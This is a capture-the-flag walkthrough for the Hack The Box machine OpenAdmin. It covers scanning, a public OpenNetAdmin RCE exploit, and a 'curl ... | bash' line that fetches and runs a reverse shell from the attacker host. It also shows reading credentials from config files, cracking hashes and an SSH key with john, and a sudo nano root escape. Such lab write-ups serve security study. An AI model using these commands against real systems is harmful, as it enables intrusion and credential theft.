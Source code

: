 ## OpenAdmin

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.171 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/ac914b6f-b28c-477b-a074-4f61b2d1e769)

<br>

GoBuster finds 3 directories.

![gobuster](https://github.com/b1d0ws/OSCP/assets/58514930/c22678dd-0712-4fe9-844e-ddcb6a07337d)

<br>

If you click on Login button inside /music you find /ona.

![loginButton](https://github.com/b1d0ws/OSCP/assets/58514930/1774186c-19e9-4964-850f-a448ed0f5e2d)

![onav18](https://github.com/b1d0ws/OSCP/assets/58514930/b7a769e5-2f02-4d75-a4de-2f730c209641)

<br>

Ona is related to OpenNetAdmin. Searching for ONA 18.1.1, we find a public [RCE exploit](https://www.exploit-db.com/exploits/47691).

![findingRCE](https://github.com/b1d0ws/OSCP/assets/58514930/196231db-18db-47f1-9ba1-abb4831f10fd)

<br> 

Use it to get a basic reverse shell, and get a better one using the curl command.

```
./47691.sh http://openadmin.htb/ona/
curl http://10.10.14.11:8000/reverse | bash
```

![gettingReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/a3a0e0a4-84a7-4491-b8d3-9704344750bf)

<br>

Inside the machine, we can find the [OpenNetAdmin DB Password](https://opennetadmin.com/forum_archive/4/t-85.html) reading the file /opt/ona/www/local/config/database_settings.inc.php.  

You can login via SSH as Jimmy user with this password.

![gettingJimmyPass](https://github.com/b1d0ws/OSCP/assets/58514930/dc439698-ea96-49a5-9c8a-96b3fd2f5179)

To escalate to joanna, you need to read her SSH Key. There are two ways to do this.

First you enumerate that there is another website inside /var/www/internal. Inside this directory, there is this main.php file that read her SSH Key. The easy way is just call this guy with curl.

You just need to find which port is running the site. You can enumerate via network commands or reading /etc/apache2/sites-available/internal.conf.

```
curl 127.0.0.1:52846/main.php
```

![mainPHP](https://github.com/b1d0ws/OSCP/assets/58514930/06660d07-5274-4f8a-a5b9-30f667f25ba4)

![readingKeyViaCurl](https://github.com/b1d0ws/OSCP/assets/58514930/63ce33c2-5e22-4114-8504-b15e2d193d47)

<br>

The other way is redirecting the port. But this time you need to go through a login form.

```
ssh -L 8000:127.0.0.1:52846 jimmy@10.10.10.171
```

![portForwarding](https://github.com/b1d0ws/OSCP/assets/58514930/d9e6f3f1-8515-4f38-a982-dd2d93fdc0a3)

![loginPortForward](https://github.com/b1d0ws/OSCP/assets/58514930/9cc3522b-4625-48b7-b8d1-894105926e35)

<br>

The password is hashed with SHA512. This hash is crackable in crackstation. Find the "Revealed" password and get the SSH Key.

![otherJimmyPassword](https://github.com/b1d0ws/OSCP/assets/58514930/7601d80c-033c-440d-8881-97f784c39b6c)

![crackingPass](https://github.com/b1d0ws/OSCP/assets/58514930/2a586121-1140-4b6a-8640-5afe181e6267)

![readingKeyViaHTTP](https://github.com/b1d0ws/OSCP/assets/58514930/527d8e67-00e6-4259-be13-2d2a6283e30d)

<br>

Now we need to crack the rsa password with john to login as joanna.

```
ssh2john id_rsa > rsaHash
john rsaHash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Root Flag

Enumerating with sudo -l, we find:

![sudo -l](https://github.com/b1d0ws/OSCP/assets/58514930/dc385e4e-840c-4787-a7ba-99f496586e92)

<br>

Follow [this way](https://gtfobins.github.io/gtfobins/nano/#shell) to evoke a shell inside nano:

```bash
sudo /bin/nano /opt/priv
CTRL R + CTRL X
reset; bash 1>&0 2>&0 + ENTER
```

![nanoShell](https://github.com/b1d0ws/OSCP/assets/58514930/ac77fe7f-fe0d-4c53-8192-a58a0b62c83a)

